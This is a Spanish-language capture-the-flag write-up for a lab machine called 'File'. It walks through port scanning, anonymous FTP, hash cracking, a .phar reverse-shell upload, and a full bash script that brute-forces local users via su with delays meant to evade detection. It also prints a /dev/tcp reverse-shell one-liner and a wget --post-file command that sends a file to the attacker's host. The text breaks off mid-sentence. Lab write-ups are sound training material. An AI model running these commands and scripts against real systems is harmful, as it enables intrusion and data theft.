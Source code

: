 # File
## Reconocimiento
### Nmap
Como primer paso, realizo vía Nmap un escaneo de puertos, identificando versiones y servicios en estos.
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/12-file(A)/imgs/nmap.png]]

Como se puede ver, permite el login iniciando sesión como `ftp`, así que voy a entrar a ver si hay algún archivo que pueda resultar interesante, luego pasaré a echarle un ojo a la web.
Dentro de ftp hago un `ls` y veo que hay un archivo llamado anon.txt, lo descargo en mi máquina usando `curl` y veo que es un string de caracteres, probablemente una contraseña cifrada.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/12-file(A)/imgs/ftp.png]]

 
## Explotación
Utilizo la herramienta `hash-identifier` para ver que algoritmo puede haberse usado para cifrar este string.

![[hashid.png]]

Una vez identificado el tipo de hash, con john crackeo el string y obtengo como resultado `justin`, por ahora no se muy bien que hacer con esto ya que la máquina no tiene SSH, así que voy a guardarlo.

![[justin.png]]

Un fuzzeo revela la ruta `/file_upload.php`, así que está claro lo que voy a hacer, subiré una revshell para luego acceder a ella desde `/uploads` y así ganar acceso a la máquina.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/12-file(A)/imgs/ffuf.png]]

En principio, veo que está securizado, y después de probar varias extensiones de archivo para poder subir el archivo al servidor, finalmente lo consigo con `.phar`
## Post
Lo primero es siempre sanitizar la shell

![[Ciberseguridad/Hacking/Writeups/253_septiembre/12-file(A)/imgs/sanitize.png]]

Luego, descargo con `wget` el rockyou.txt, ya que hay varios usuarios a los que quiero probar un ataque diccionario, con `cat /etc/passwd` se ve que hay 4 usuarios, y usando echo con comillas y el operador `>` escribimos en un archivo los nombres para realizar el ataque.
Hago con IA un script que iterará por los 4 usuarios que me interesan con el diccionario previamente descargado y lo sirvo con un servidor HTTP levantado con python a la shell que tengo dentro de la máquina.
```bash
#!/bin/bash
#
# Script de fuerza bruta local para múltiples usuarios
# Uso: ./brute_local.sh [wordlist] [usuarios]
#

# Colores para output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
NC='\033[0m' # No Color

# Configuración
WORDLIST=${1:-"/tmp/rockyou.txt"}
USER_LIST=${2:-"fernando mario julen iker"}
DELAY=1 # Delay entre intentos (evitar detección)

echo -e "${YELLOW}[+] Iniciando fuerza bruta local${NC}"
echo -e "${YELLOW}[+] Wordlist: $WORDLIST${NC}"
echo -e "${YELLOW}[+] Usuarios: $USER_LIST${NC}"
echo ""

# Verificar si la wordlist existe
if [ ! -f "$WORDLIST" ]; then
  echo -e "${RED}[-] Error: Wordlist no encontrada: $WORDLIST${NC}"
  echo "[-] Creando wordlist básica..."
  echo -e "password\n123456\nadmin\ntest\nroot\n12345\n1234\n123456789\nqwerty" >/tmp/wordlist.txt
  WORDLIST="/tmp/wordlist.txt"
fi

# Contador de contraseñas probadas
TOTAL_PASSWORDS=$(wc -l <"$WORDLIST")
echo -e "${YELLOW}[+] Probando $TOTAL_PASSWORDS contraseñas por usuario${NC}"

# Función para probar contraseña
test_password() {
  local user=$1
  local password=$2

  # Intentar autenticación con 'su'
  echo "$password" | timeout 3 su - "$user" -c "whoami" 2>/dev/null

  if [ $? -eq 0 ]; then
    return 0 # Éxito
  else
    return 1 # Fallo
  fi
}

# Bucle principal por cada usuario
for USER in $USER_LIST; do
  echo -e "\n${YELLOW}[+] Probando usuario: $USER${NC}"
  COUNTER=0
  FOUND=0

  # Verificar si el usuario existe
  if id "$USER" &>/dev/null; then
    while read -r PASSWORD; do
      ((COUNTER++))

      # Mostrar progreso cada 10 intentos
      if [ $((COUNTER % 10)) -eq 0 ]; then
        echo -ne "[$COUNTER/$TOTAL_PASSWORDS] Probando: $PASSWORD\033[0K\r"
      fi

      # Probar la contraseña
      if test_password "$USER" "$PASSWORD"; then
        echo -e "\n${GREEN}[+] ¡CREDENCIALES ENCONTRADAS!${NC}"
        echo -e "${GREEN}[+] Usuario: $USER${NC}"
        echo -e "${GREEN}[+] Contraseña: $PASSWORD${NC}"
        echo ""
        FOUND=1
        break
      fi

      # Delay para evitar detección
      sleep $DELAY

    done <"$WORDLIST"

    if [ $FOUND -eq 0 ]; then
      echo -e "${RED}[-] No se encontró contraseña para $USER${NC}"
    fi

  else
    echo -e "${RED}[-] El usuario $USER no existe${NC}"
  fi
done

echo -e "\n${YELLOW}[+] Escaneo completado${NC}"

```

![[httpserv.png]]

Entonces, lo descargo desde allí con `wget http://IP_EJEMPLO:8000/script.bash`, le doy permisos de ejecución con `chmod +x script.bash` y lo ejecuto. Rápidamente encuentra la clave: chocolate.
Pivoto entonces a fernando con la clave chocolate, la shell esta totalmente vacía así que me mando una revshell al siguiente puerto con  `bash -i >& /dev/tcp/192.168.1.157/444 0>&1` y sanitizo allí de nuevo como fernando.
Al visitar /home/fernando me encuentro con un archivo llamado dragon-medieval.jpeg, lo mando a mi máquina con:
```
wget --post- file=/tmp/dragon-medieval.jpeg http://192.168.1.157:8000/ --timeout=3 -t 1 -q
```
habiendo levantado antes un servidor HTTP con python de nuevo.
Una vez tengo el archivo en mi máquina

